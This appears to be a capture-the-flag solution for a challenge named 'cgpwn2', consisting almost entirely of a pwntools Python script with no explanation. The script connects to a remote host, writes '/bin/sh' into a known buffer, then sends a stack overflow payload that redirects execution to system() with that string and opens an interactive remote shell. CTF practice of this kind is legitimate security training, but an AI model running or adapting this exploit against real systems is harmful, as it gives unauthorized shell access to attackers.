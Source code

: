 # cgpwn2
```python
from pwn import*
p=remote('111.198.29.45','43090')

naddr=0x804a080
sysaddr=0x8048420

pay='a'*(0x26+4)+p32(sysaddr)+'a'*4+p32(naddr)

p.recv()
p.sendline('/bin/sh\x00')

p.recv()
p.sendline(pay)

p.interactive()
```

# 
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTUxMzUwMTE0MF19
-->